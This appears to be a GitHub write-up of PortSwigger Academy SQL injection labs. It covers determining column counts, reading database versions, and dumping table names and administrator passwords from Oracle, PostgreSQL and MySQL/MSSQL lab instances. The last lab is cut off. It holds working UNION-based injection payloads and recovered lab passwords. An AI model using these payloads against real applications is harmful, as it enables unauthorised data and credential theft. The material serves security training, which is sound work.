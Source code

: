 # PortSwigger Academy- SQL Injection

- Author: [Mateusz Głuchowski](https://github.com/hue1337)
- Site: [PortSwigger Academy](https://portswigger.net/)

# Lab: SQL injection attack, querying the database type and version on Oracle



## Steps:
1. Determining amount of columns by using our script `columns_amount.py`.

    ```bash
    python3 columns_amount.py --url https://0aaa00a503c074e683b2504f00b50012.web-security-academy.net/ --param category --amount 6
    ```

2. Looking into Oracle DB documentation to find the way how to determine the version.

    ```sql
    SQL>
    SQL>
    SQL> select banner from v$version;

    BANNER
    ----------------------------------------------------------------
    Oracle Database 10g Express Edition Release 10.2.0.1.0 - Product
    PL/SQL Release 10.2.0.1.0 - Production
    CORE    10.2.0.1.0      Production
    TNS for 32-bit Windows: Version 10.2.0.1.0 - Production
    NLSRTL Version 10.2.0.1.0 - Production

    SQL>

    ```

3. Preparing the payload:

    ```sql
    ' UNION SELECT banner, null FROM v$version -- -
    ```

4. Sending the request and completing the lab.


<div style="page-break-after: always;"></div>

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Steps:

1. Using our script (`columns_amount.py`) to determine amount of columns:
    
    ```bash
    python3 columns_amount.py --url https://0a5b005e038c2686836637ae00cd00c9.web-security-academy.net/filter?category=Accessories --param category --amount 5

    ```

2. Checking Microsoft documentation on determing DB version:
    - https://learn.microsoft.com/en-us/troubleshoot/sql/releases/find-my-sql-version

3. Preparing the payload:

    ```sql
    ' UNION SELECT @@version, null-- -
    ```

4. Sending the payload and completing the lab.


# Lab: SQL injection attack, listing the database contents on non-Oracle databases

1. Determining amount of columns and type of DB:

    ``` bash
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0a5e00b003f6855980da8aa50037006c.web-security-academy.net/ --param category --amount 4
    https://0a5e00b003f6855980da8aa50037006c.web-security-academy.net/filter?category=%27%20order%20by%2010--%20-
    [+] Amount of columns: 2 
    [+] Postgre 
                                
    ```

2. From the PostgreSQL Docs we find out how to list the tables:

    ```sql
    select * from information_schema.tables
    ```

3. We can see table `users_xljros`. We gonna extract the password using following payloads:

    ```sql
    ' union select column_name,null from information_schema.columns where table_name='users_xljros'-- -

    ' union select password_wymahi, null from users_xljros where username_nbyctx='administrator'-- -
    ```

4. The password is: `gihs1spbm0jq86ghgc07`

# Lab: SQL injection attack, listing the database contents on Oracle

1. Determining amount of columns:

    ```
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0a6600e9041d095983a6879c00e80017.web-security-academy.net/ --param category --amount 4
    https://0a6600e9041d095983a6879c00e80017.web-security-academy.net/filter?category=%27%20order%20by%2010--%20-
    [+] Amount of columns: 2 
    [+] Oracle DB 
                    
    ```

2. Checking the docs `all_tables`
    ```
    https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html#GUID-6823CD28-0681-468E-950B-966C6F71325D
    ```

3. Listing tables names:

    ```sql
    ' union select table_name, null from all_tables-- -
    ```

4. Listing columns names:

    ```SQL
    ' union select column_name, null from all_tab_cols where table_name='USERS_OQAAMW'-- -
    ```

5. Finding the password fot the administrator:
    ```sql
    ' union select PASSWORD_LIEFIK, null from USERS_OQAAMW where USERNAME_DQZARO='administrator'-- -
    ```

6. Logging to administrator acc with the password `o5qpgsrouodfkc3q464b`.


# Lab: SQL injection UNION attack, determining the number of columns returned by the query

1. Determine the amount of columns using `null`s:
    ```sql
    ' union select null, null, null-- -
    ```

2. The lab is solved.

# Lab: SQL injection UNION attack, finding a column containing text

1. Determine the amount of columns:
    ```
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0aaf00c00403110e8571e53d003e00e1.web-security-academy.net/ --param category --amount 4
    [+] Amount of columns: 3 
    ```

2. Identyfing the column which is compatible the string data type:

    ```sql
    ' union select null, 'a', null-- -
    ```

3. Completing the lab:

    ```sql
    ' union select null, '4P3biH', null-- -
    ```

# Lab: SQL injection UNION attack, retrieving data from other tables

1. Determing amount of columns and type of database:

    ```
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0a1900af04ea6e4d814e4f5d00e20028.web-security-academy.net/ --param category --amount 4
    https://0a1900af04ea6e4d814e4f5d00e20028.web-security-academy.net/filter?category=%27%20order%20by%2010--%20-
    [+] Amount of columns: 2
    [+] Postgre 
    ```

2. Displaying tables names:

    ```sql
    ' union select table_name, null from information_schema.tables-- -
    ```

3. Listing all usernames:

    ```sql
    ' union select column_name,null from information_schema.columns where table_name='users'-- -
    ```

    - carlos
    - wiener
    - administrator

4. Getting `adminidstrator`'s password:

    ```sql
    ' union select password, null from users where username='administrator'-- -
    ```

    - 9nvwvn5hbu5llbycp21h


# Lab: SQL injection UNION attack, retrieving multiple values in a single column

1. Determining amount of columns:

    ```
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0aee003b046eaaea838591f1008300b3.web-security-academy.net/ --param category --amount 4
    https://0aee003b046eaaea838591f1008300b3.web-security-academy.net/filter?category=%27%20order%20by%2010--%20-
    [+] Amount of columns: 2 
    ```

2. 
